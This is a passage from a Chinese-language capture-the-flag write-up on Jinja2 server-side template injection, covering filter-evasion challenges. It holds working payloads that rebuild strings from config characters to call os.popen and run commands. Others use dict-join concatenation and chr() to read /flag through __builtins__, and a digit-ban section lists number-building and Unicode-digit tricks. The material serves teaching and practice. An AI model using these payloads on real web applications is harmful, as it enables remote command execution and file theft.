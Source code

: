 payload:

```jinja2
{% print (lipsum|attr((config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(6).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(2).lower()~(config|string|list).pop(33).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(42).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(74).lower())).get((config|string|list).pop(2).lower()~(config|string|list).pop(42).lower()).popen((config|string|list).pop(1).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(23).lower()~(config|string|list).pop(7).lower()~(config|string|list).pop(279).lower()~(config|string|list).pop(4).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(6).lower()).read() %}
```

**法2**

本来是想只跑被过滤的字符，但是发现引号被过滤了，利用引号拼接字符的方法就行不通了，

> 不过从羽师傅那学到可以用这样的形式进行拼接：
>
> ```jinja2
> {% set a=dict(o=a,s=a)|join %}
> ```
>
> 这样得到的a就是将该字典的键名拼接后的值，也就是os，这样的拼接无需单引号

参考羽师傅写个payload：

```jinja2
{% print (lipsum|attr(__globals__)).get(__builtins__).open('/flag').read() %}
```

```jinja2
{% set a=(config|string|list).pop(74)%}
{% set glob=(a,a,dict(globals=a)|join,a,a)|join() %}
{% set bult=(a,a,dict(builtins=a)|join,a,a)|join() %}
{% set b=(lipsum|attr(glob)).get(bult) %}
{% set chr=b.chr %}
{% print b.open(chr(47)~chr(102)~chr(108)~chr(97)~chr(103)).read() %}
```

## 370-过滤数字


> 这题ban了数字，可以用以下方式来获得数字（by[总结 - CTF中的SSTI0x01 | Morouu的大狗窝 ●'◡'● (morblog.cc)](https://morblog.cc/posts/21233/)）
>
> ```python
> {}|int # 0
> (not{})|int # 1
> ((not{})|int+(not{})|int) # 2
> ((not{})|int+(not{})|int)**((not{})|int+(not{})|int) # 4
> ((not{})|int,(not{})|int)|sum # 2
> 
> ((not{})|int,{}|int)|join|int # 10
> (-(not{})|int,{}|int)|join|int # -10
> 'aaxaaa'.index('x') # 2
> ((),())|count/length # 2
> ((),())|length # 2
> ```
>
> 也可用全角数字和一些一些 unicode 字符代替正常数字
>
> ```unicode
> ٠١٢٣٤٥٦٧٨٩
> 𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫
> 𝟘𝟙𝟚𝟛𝟜𝟝𝟞𝟟𝟠𝟡
> 𝟶𝟷𝟸𝟹𝟺𝟻𝟼𝟽𝟾
